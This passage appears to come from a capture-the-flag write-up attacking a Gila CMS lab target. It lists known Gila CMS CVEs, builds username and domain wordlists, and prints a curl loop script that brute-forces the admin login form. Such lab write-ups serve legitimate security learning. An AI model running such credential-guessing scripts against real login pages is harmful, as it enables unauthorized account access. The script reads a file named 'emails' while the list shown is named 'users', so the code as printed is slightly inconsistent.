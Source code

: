 This seemed to have worked. Looking online for GilaCMS vulnerabilities we find that there are quite a few CVEs affecting different versions of the application. The ones i came across and the versions they affect are as following

-   CVE-2019-16679 Gila CMS before 1.11.1 directory traversal/file inclusion
-   CVE-2019-11515 Gila CMS 1.10.1 path traversal to read arbitrary files
-   CVE-2019-11456 Gila CMS 1.10.1 fm/save CSRF for executing arbitrary PHP code
-   CVE-2019-9647 Gila CMS 1.9.1 has XSS
-   CVE-2020-5512 Gila CMS 1.11.8 Directory Traversal
-   CVE-2020-5513 Gila CMS 1.11.8 LFI
-   CVE-2020-5514 Gila CMS 1.11.8 RCE
-   CVE-2020-5515 Gila CMS 1.11.8 SQL Injection
-   NO-CVE Gila CMS 2.0.0 Unauthenticated RCE

Trying to detect the version of the target installation proved harder than anticipated. Seems that the project has removed all previous versions and left us with a repository of the latest version only. Archive.org also failed to provide us with anything meaningful either.

All of the CVEs affecting the installation require authenticated access. Only the last vulnerability is for unauthenticated RCE but didn't seem to work on this installation.

So it seems that the only logical next step is that we try and detect a password to login and try the ones that require authentication. The hint we received earlier leads me to believe that the password should be fairly simple to guess.

Thankfully, finding the administration URL for the application was easy. So we visit the url at [http://10.0.100.32/gila/admin/](http://10.0.100.32/gila/admin/) and we're greeted with the login screen. We need an `email` and a `password`, so we go back to the hunt. From watching the front page articles we can see the system has a user named `admin`.

So i created a list of potential users/passwords

```
$ cat users
admin
pcprincipal
gilacms
gila
```

and a few domains to try

```
$ cat domains
10.0.100.32
echocity-f.com
pcprincipal.echocity-f.com
localhost
pcprincipal
```

I copied a failed request from chrome as `cURL request` and adapted it to perform a quick brute force with curl. A triple `for` loop later gives us this

```sh
$ cat brute.sh
for email in $(<emails);do
  for domain in $(<domains);do
    for pass in $(<emails);do
      curl -s 'http://10.0.100.32/gila/admin/' -H 'Origin: http://10.0.100.32' \
      -H 'Content-Type: application/x-www-form-urlencoded' \
      -H 'Referer: http://10.0.100.32/gila/admin/' \
      -d "username=$email@$domain&password=$pass" \
      | grep "Wrong email" >/dev/null \
      || echo "$email@$domain $pass seems valid"
    done
  done
done
```
